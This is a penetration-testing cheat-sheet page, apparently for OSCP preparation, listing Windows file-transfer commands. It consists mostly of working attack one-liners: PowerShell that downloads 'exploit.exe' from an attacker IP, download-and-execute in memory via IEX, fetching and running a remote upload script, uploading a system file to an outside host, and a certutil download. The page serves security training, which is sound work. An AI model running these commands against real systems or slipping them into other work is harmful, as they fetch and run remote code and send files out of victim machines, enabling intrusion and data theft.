 # 📁 File Transfer

For more detailed methods: [https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/](https://hackersinterview.com/oscp/oscp-cheatsheet-windows-file-transfer-techniques/)&#x20;

Use my transfile.sh script from [here](https://github.com/AdityaHebballe/Pentest-Scripts/)

## Windows

### Powershell

<mark style="color:purple;">**Download file**</mark>

{% code overflow="wrap" %}
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2/exploit.exe', 'exploit.exe')
```
{% endcode %}

<mark style="color:purple;">**Download and execute without saving on disk**</mark>

{% code overflow="wrap" %}
```
powershell.exe IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.1.2/test.ps1')
```
{% endcode %}

<mark style="color:purple;">**To encode using powershell:**</mark>

{% code title="Decode in linux with base64 -d" overflow="wrap" %}
```powershell
[Convert]::ToBase64String((Get-Content -path "C:\Windows\system32\drivers\etc\hosts" -Encoding byte))
```
{% endcode %}

<mark style="color:purple;">**To upload using powershell**</mark>

{% code overflow="wrap" %}
```
IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/juliourena/plaintext/master/Powershell/PSUpload.ps1')
```
{% endcode %}

{% code title="Use python -m uploadserver on target" %}
```
Invoke-FileUpload -Uri http://10.10.14.24:80/upload -File C:\Windows\System32\drivers\etc\hosts
```
{% endcode %}

### CMD

```
certutil -urlcache -f ${file url} filename
```
